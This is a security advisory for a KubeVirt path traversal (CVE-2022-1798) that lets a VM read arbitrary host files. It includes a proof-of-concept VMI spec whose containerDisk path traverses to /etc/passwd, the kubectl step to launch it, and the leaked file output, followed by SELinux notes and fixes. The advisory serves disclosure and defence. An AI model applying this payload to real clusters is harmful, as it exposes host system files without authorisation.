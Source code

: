 ```yaml
---
title: 'KubeVirt: Arbitrary host file read from the VM'
severity: Moderate
ghsa_id: GHSA-cvx8-ppmc-78hm
cve_id: CVE-2022-1798
weaknesses: []
products:
- ecosystem: KubeVirt
  package_name: KubeVirt
  affected_versions: v0.53
  patched_versions: ''
cvss: null
credits:
- github_user_id: 0xdidu
  name: 0xdidu
  avatar: https://avatars.githubusercontent.com/u/48681881?s=40&v=4
---
```


**Summary**
As part of a Kubevirt audit performed by NCC group, a finding dealing with systemic lack of path sanitization which leads to a path traversal was identified.  Google tested the exploitability of the paths in the audit report and identified that when combined with another vulnerability one of the paths leads to an arbitrary file read on the host from the VM.

The read operations are limited to files which are publicly readable or which are readable for UID 107 or GID 107. /proc/self/<> is not accessible.

**Severity**

Moderate - The vulnerability is proven to exist in an open source version of KubeVirt by NCC Group while being combined with Systemic Lack of Path Sanitization, which leads to Path traversal.

**Proof of Concept**

The initial VMI specifications can be written as such to reproduce the issue:

```

apiVersion: kubevirt.io/v1
kind: VirtualMachineInstance
metadata:
  name: vmi-fedora
spec:
  domain:
    devices:
      disks:
      - disk:
          bus: virtio
        name: containerdisk
      - disk:
          bus: virtio
        name: cloudinitdisk
      - disk:
          bus: virtio
        name: containerdisk1
      rng: {}
    resources:
      requests:
        memory: 1024M
  terminationGracePeriodSeconds: 0
  volumes:
  - containerDisk:
      image: quay.io/kubevirt/cirros-container-disk-demo:v0.52.0
    name: containerdisk
  - containerDisk:
      image: quay.io/kubevirt/cirros-container-disk-demo:v0.52.0
      path: test3/../../../../../../../../etc/passwd
    name: containerdisk1
  - cloudInitNoCloud:
      userData: |
        #!/bin/sh
        echo 'just something to make cirros happy'
    name: cloudinitdisk


```
The VMI can then be started through kubectl apply -f vm-test-ncc.yaml.
The requested file is accessible once the VM is up and can be accessed under /dev/vdc.

Depending on the environment, path may contain more or less /.., something that can easily be tested by checking the events until the VMI can start without failure.
Restrictions 

SELinux may mitigate this vulnerability.

When using a node with selinux, selinux denies the access and the VM start was aborted:

```

19s         Warning   SyncFailed                virtualmachineinstance/vmi-fedora    server error. command SyncVMI failed: "preparing ephemeral container disk images failed: stat /var/run/kubevirt/container-disks/disk_0.img: permission denied"

type=AVC msg=audit(1651828898.296:1266): avc:  denied  { setattr } for  pid=44402 comm="rpc-worker" name="passwd" dev="vda1" ino=691477 scontext=system_u:system_r:virt_launcher.process:s0:c255,c849 tcontext=system_u:object_r:passwd_file_t:s0 tclass=file permissive=1

```

After making selinux permissive the VM can boot and access /etc/passwd from the node within the guest:

```

$ sudo cat /dev/vdc
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
[...]

```

**Further Analysis**
In order to mitigate this vulnerability, Sanitize imagePath in pkg/container-disk/container-disk.go following ISE best practices described and Add checks in pkg/virt-api/webhooks/validating-webhook/admitters/vmi-create-admitter.go

**Timeline**
Date reported: 05/10/2022
Date fixed: N/A
Date disclosed: 08/08/2022